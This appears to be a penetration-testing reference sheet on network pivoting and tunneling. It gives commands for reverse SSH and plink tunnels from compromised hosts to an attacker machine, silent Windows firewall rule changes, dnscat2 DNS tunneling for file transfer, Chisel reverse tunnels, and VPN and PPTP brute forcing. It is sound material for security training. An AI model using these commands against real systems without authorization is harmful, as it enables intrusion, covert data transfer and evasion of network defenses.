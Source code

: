 # [](#networking-pivoting-and-tunneling)Networking, Pivoting and Tunneling

*   Port Forwarding - accept traffic on a given IP address and port and redirect it to a different IP address and port

    *   `apt-get install rinetd`

    *   `cat /etc/rinetd.conf`

            # bindadress bindport connectaddress connectport
            w.x.y.z 53 a.b.c.d 80

*   SSH Local Port Forwarding: supports bi-directional communication channels

    *   `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`
*   SSH Remote Port Forwarding: Suitable for popping a remote shell on an internal non routable network

    *   `ssh <gateway> -R <remote port to bind>:<local host>:<local port>`
*   SSH Dynamic Port Forwarding: create a SOCKS4 proxy on our local attacking box to tunnel ALL incoming traffic to ANY host in the DMZ network on ANY PORT

    *   `ssh -D <local proxy port> -p <remote port> <target>`
*   Proxychains - Perform nmap scan within a DMZ from an external computer

    *   Create reverse SSH tunnel from Popped machine on :2222

        `ssh -f -N -T -R22222:localhost:22 yourpublichost.example.com` `ssh -f -N -R 2222:<local host>:22 root@<remote host>`

    *   Create a Dynamic application-level port forward on 8080 thru 2222

        `ssh -f -N -D <local host>:8080 -p 2222 hax0r@<remote host>`

    *   Leverage the SSH SOCKS server to perform Nmap scan on network using proxy chains

        `proxychains nmap --top-ports=20 -sT -Pn $ip/24`

*   HTTP Tunneling

    `nc -vvn $ip 8888`

*   Traffic Encapsulation - Bypassing deep packet inspection

    *   http tunnel  
        On server side:  
        `sudo hts -F <server ip addr>:<port of your app> 80` On client side:  
        `sudo htc -P <my proxy.com:proxy port> -F <port of your app> <server ip addr>:80 stunnel`
*   Tunnel Remote Desktop (RDP) from a Popped Windows machine to your network

    *   Tunnel on port 22

        `plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>`

    *   Port 22 blocked? Try port 80? or 443?

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80`
        
    *   This will most likely not work with the interactivity level we have in a typical reverse shell, so we should pipe the answer to the prompt with the `cmd.exe /c echo y` command. 

        `cmd.exe /c echo y | plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80`

*   Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel (bypass deep packet inspection)

    *   Windows machine add required firewall rules without prompting the user

    *   `netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes`

    *   `netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000`

    *   `netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080`

    *   `netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079`

    *   Start the http tunnel client

        `httptunnel_client.exe`

    *   Create HTTP reverse shell by connecting to localhost port 3000

        `plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P 3000`

*   VLAN Hopping

    *   <div class="highlight highlight-source-shell">

        <pre>git clone https://github.com/nccgroup/vlan-hopping.git  
        chmod 700 frogger.sh  
        ./frogger.sh</pre>

        </div>

*   VPN Hacking

    *   Identify VPN servers:  
        `./udp-protocol-scanner.pl -p ike $ip`

    *   Scan a range for VPN servers:  
        `./udp-protocol-scanner.pl -p ike -f ip.txt`

    *   Use IKEForce to enumerate or dictionary attack VPN servers:

        `pip install pyip`

        `git clone https://github.com/SpiderLabs/ikeforce.git`

        Perform IKE VPN enumeration with IKEForce:

        `./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic`

        Bruteforce IKE VPN using IKEForce:

        `./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1` Use ike-scan to capture the PSK hash:

        <div class="highlight highlight-source-shell">

        <pre>ike-scan  
        ike-scan TARGET-IP  
        ike-scan -A TARGET-IP  
        ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key  
        ike-scan –M –A –n example<span class="pl-cce">\_</span>group -P hash-file.txt TARGET-IP</pre>

        </div>

        Use psk-crack to crack the PSK hash

        <div class="highlight highlight-source-shell">

        <pre>psk-crack hash-file.txt  
        pskcrack  
        psk-crack -b 5 TARGET-IPkey  
        psk-crack -b 5 --charset=<span class="pl-s"><span class="pl-pds">"</span>01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz<span class="pl-pds">"</span></span> 192-168-207-134key  
        psk-crack -d /path/to/dictionary-file TARGET-IP-key</pre>

        </div>

*   PPTP Hacking

    *   Identifying PPTP, it listens on TCP: 1723  
        NMAP PPTP Fingerprint:

        `nmap –Pn -sV -p 1723 TARGET(S)` PPTP Dictionary Attack

        `thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst`

*   Port Forwarding/Redirection

*   PuTTY Link tunnel - SSH Tunneling

    *   Forward remote port to local address:

        `plink.exe -P 22 -l root -pw "1337" -R 445:<local host>:445 <remote host>`

*   SSH Pivoting

    *   SSH pivoting from one network to another:

        `ssh -D <local host>:1010 -p 22 user@<remote host>`

*   DNS Tunneling

    *   dnscat2 supports “download” and “upload” commands for getting iles (data and programs) to and from the target machine.

    *   Attacking Machine Installation:

        <div class="highlight highlight-source-shell">

        <pre>apt-get update  
        apt-get -y install ruby-dev git make g++  
        gem install bundler  
        git clone https://github.com/iagox86/dnscat2.git  
        <span class="pl-c1">cd</span> dnscat2/server  
        bundle install</pre>

        </div>

    *   Run dnscat2:

            ruby ./dnscat2.rb  
            dnscat2> New session established: 1422  
            dnscat2> session -i 1422

    *   Target Machine:  
        [_https://downloads.skullsecurity.org/dnscat2/_](http://web.archive.org/web/20171113221652/https://downloads.skullsecurity.org/dnscat2/)

        [_https://github.com/lukebaggett/dnscat2-powershell/_](http://web.archive.org/web/20171113221652/https://github.com/lukebaggett/dnscat2-powershell/)

        `dnscat --host <dnscat server ip>`
*   Chisel

    * Chisel is a fast TCP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. What that means is that I can run a server on my attacking machine, and then connect to it from target boxes or vice versa. On making that connection, I can define different kinds of tunnels I want to set up.
    * Typical use. Example assumes attacking machine (server) is 10.10.14.3, victim machine (client) is running from 10.10.10.10.

      Start server listening on 9002:

      `./chisel server --reverse --port 9002`

      From victim:

      `./chisel client 10.10.14.3:9002 R:13306:127.0.0.1:3306`

      We can now access MySQL (13306) from our attacking machine.
